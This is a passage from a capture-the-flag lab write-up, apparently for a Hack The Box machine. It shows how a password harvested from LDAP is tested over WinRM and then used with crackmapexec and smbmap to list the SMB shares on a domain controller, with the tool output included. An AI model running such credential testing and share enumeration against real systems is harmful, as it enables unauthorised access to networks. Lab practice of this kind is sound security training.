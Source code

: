 
## Shell as s.smith

### Revisiting SMB

I tried connecting over WinRM, but didn’t succeed.

    
    
    root@kali# crackmapexec winrm 10.10.10.182 -u r.thompson -p rY4n5eva
    WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\r.thompson:rY4n5eva "Failed to authenticate the user r.thompson with ntlm"
    

Back to SMB.

#### Validate Creds

With the password collected from LDAP, more shares are visible:

    
    
    root@kali# crackmapexec smb -u r.thompson -p rY4n5eva --shares 10.10.10.182
    SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:CASCADE) (signing:True) (SMBv1:False)
    SMB         10.10.10.182    445    CASC-DC1         [+] CASCADE\r.thompson:rY4n5eva 
    SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
    SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
    SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
    SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
    SMB         10.10.10.182    445    CASC-DC1         Audit$                          
    SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
    SMB         10.10.10.182    445    CASC-DC1         Data            READ            
    SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
    SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
    SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
    SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 
    

`smbmap` shows the same:

    
    
    root@kali# smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva
    [+] IP: 10.10.10.182:445        Name: 10.10.10.182                                      
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            ADMIN$                                                  NO ACCESS       Remote Admin
            Audit$                                                  NO ACCESS
            C$                                                      NO ACCESS       Default share
            Data                                                    READ ONLY
            IPC$                                                    NO ACCESS       Remote IPC
            NETLOGON                                                READ ONLY       Logon server share 
            print$                                                  READ ONLY       Printer Drivers
            SYSVOL                                                  READ ONLY       Logon server share 
    
